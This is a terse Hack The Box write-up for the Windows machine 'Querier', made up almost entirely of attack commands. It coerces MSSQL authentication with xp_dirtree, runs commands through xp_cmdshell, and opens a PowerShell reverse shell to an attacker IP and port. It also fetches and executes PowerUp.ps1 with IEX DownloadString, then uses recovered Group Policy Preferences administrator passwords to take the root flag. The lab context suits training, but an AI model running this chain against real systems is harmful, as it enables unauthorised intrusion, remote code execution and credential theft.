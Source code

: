 ```yaml
---
layout: single
title: Querier - Hack The Box
excerpt: "N/A"
date: 2019-06-01
classes: wide
header:
  teaser: /assets/images/htb-writeup-querier/querier_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
  unreleased: false
categories:
  - hackthebox
tags:  
  - windows
  - medium
  - mssql
  - xp_dirtree
  - xp_cmdshell
  - powerup.ps1
  - smb
---
```


![](/assets/images/htb-writeup-querier/querier_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------

# USER

**LISTENER:**
```bash
python smbserver.py -smb2support -ip 10.10.14.3 reporting /tmp 
```

**RUN:**
```bash
python mssqlclient.py -windows-auth querier/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
SQL> EXEC master.sys.xp_dirtree '\\10.10.14.3\tmp'
```

**Connect with credentials:**
```bash
python mssqlclient.py querier/mssql-svc:corporate568@10.10.10.125 -windows-auth

> xp_cmdshell type C:\Users\mssql-svc\Desktop\user.txt
```

--------
<br><br>
# ROOT


**Start `smbserver` and `netcat` listener:**
```bash
$ python smbserver.py -smb2support -ip 10.10.14.11 querier /tmp
$ nc -lnvp 4444
```

**Get reverse shell with `PowerShellTcp`:**
```bash
SQL > xp_cmdshell move \\10.10.14.11\querier\Invoke-PowerShellTcp.ps1 C:\Users\mssql-svc\Desktop\pENIS.ps1
SQL > xp_cmdshell "powershell -file c:\Users\mssql-svc\Desktop\pENIS.ps1 -Reverse -IPAddress 10.10.14.11 -Port 4444"

PS > IEX (New-Object Net.WebClient).DownloadString('\\10.10.14.11\querier\PowerUp.ps1'); Invoke-AllChecks
 [*] Checking for cached Group Policy Preferences .xml files....
 Usernames : {Administrator}
 Passwords : {MyUnclesAreMarioAndLuigi!!1!}
```

**Grab flag:**
```bash
$ python smbclient.py querier/Administrator:MyUnclesAreMarioAndLuigi\!\!1\!@10.10.10.125
$ use C$
$ cd Users/Administrator/Desktop
$ get root.txt
 ```